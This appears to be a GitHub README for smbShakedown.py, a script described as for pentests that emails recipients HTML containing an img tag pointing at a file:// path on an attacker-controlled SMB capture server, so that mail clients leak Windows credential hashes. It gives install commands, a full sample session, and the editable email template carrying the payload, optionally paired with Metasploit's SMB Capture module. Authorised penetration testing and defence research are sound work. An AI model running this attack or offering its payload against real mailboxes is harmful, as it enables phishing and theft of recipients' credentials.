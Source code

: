 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.9112016
  
***  
Installation:

    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py

***
Usage:

    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (TIP: For multiple addresses, enter a file or seperate with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

***
Example:
       
	External IP: 100.100.100.100
	Internal IP: 10.37.242.7
	
	
	Enter SMTP Server address[smtp.gmail.com]: 
	ENTERED: "smtp.gmail.com"
	
	Enter your SMTP Server Port[587]: 
	ENTERED: "587"
	
	Enter SMTP Server username[user@gmail.com]: user@gmail.com
	ENTERED: "user@gmail.com"
	
	Enter SMTP Server password: 
	
	
	Enter SMB Capture Server IP address[10.37.242.7]: 
	ENTERED:10.37.242.7
	
	Enter "from name":[Tester]
	ENTERED:Tester
	
	Enter "from address":[user@gmail.com]
	ENTERED:user@gmail.com
	
	Enter recipient(s) name[Client]: Client
	ENTERED:Client
	
	TIP: For multiple addresses, enter a file or seperate with a comma
	EX:/opt/emailAddresses.txt or user1@company.com,user2@company.com
	Enter recipient addresses[File or individual email(s)]): /opt/emailAddresses.txt
	ENTERED:/opt/emailAddresses.txt
	
	ENTERED:['user1@company.com', 'user2@company.com']
	
	Email Message Template Below:
	From: Tester <user@gmail.com>
	To: Client <['user1@company.com', 'user2@company.com']>
	MIME-Version: 1.0
	Content-type: text/html
	Subject: smbShakedown.py test.
	
	
	...
	<b>smbShakedown.py test message.</b>
	<br>
	<img src=file://100.100.100.100/image/foo.gif>
	
	Testing Connection to your SMTP Server...
	('SMTP Server Status: ', 250)
	Connection to SMTP Server is successful, would you like to send mail now?[yes]:yes
	ENTERED: "yes"
	
	Message(s) sent!
	no
	Launch Metasploit's SMB Capture module?[yes]:no
	ENTERED: "no"
	
	Ok, remember to setup your SMBCapture Server elsewhere. 


***        
To update email template modify the following in source:
Becareful not to remove the variables {0},{1},{2},{3} and {4}

    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2} <{3}>
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{4}/image/foo.gif>
    """
    ##########################################################

***
To do:

	Add error handling.


